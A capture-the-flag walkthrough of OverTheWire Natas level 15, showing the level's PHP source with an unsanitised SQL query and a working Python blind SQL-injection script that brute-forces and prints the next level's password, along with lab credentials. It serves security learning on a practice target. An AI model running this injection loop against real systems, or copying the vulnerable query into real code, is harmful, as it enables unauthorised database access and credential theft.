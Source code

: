 This level is also an SQL level. 

```php
<?php
/*
CREATE TABLE `users` (
	`username` varchar(64) DEFAULT NULL,
	`password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
	$link = mysqli_connect('localhost', 'natas15', '<censored>');
	mysqli_select_db($link, 'natas15');
	
	$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
	if(array_key_exists("debug", $_GET)) {
		echo "Executing query: $query<br>";
	}
	
	$res = mysqli_query($link, $query);
	if($res) {
		if(mysqli_num_rows($res) > 0) {
			echo "This user exists.<br>";
		} else {
			echo "This user doesn't exist.<br>";
		}
	} else {
		echo "Error in query.<br>";
	}
mysqli_close($link);
} else {
?>
```

This will check for user existence. If I try to input `natas16` into the input field, it says that `This user exists`

This won't show any database information to us, only 3 different types of response based on our query

For this, we can try brute forcing the password by using a python script:
```py
import requests
from requests.auth import HTTPBasicAuth

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
correct_chars = ""
password = ""

# build a set of possible characters for password
print("Building charset...")
for char in characters:
    data = {"username" : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    response = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth("natas15", "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"), data=data)
    
    # check if query is correct
    if "exists" in response.text:
        correct_chars += char
        print(correct_chars)

# brute force the correct positions of the possible characters set (password size is 32)
print("Brute forcing...")
for i in range(0, 32):
    for char in correct_chars:
        data = {"username" : 'natas16" and password LIKE BINARY "' + password + char + '%" #'}
        response = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth("natas15", "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"), data=data)

        if "exists" in response.text:
            password += char
            print(password)
            break

print("natas16 password: " + password)
```

And here's the result: 
```py
natas16 password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
```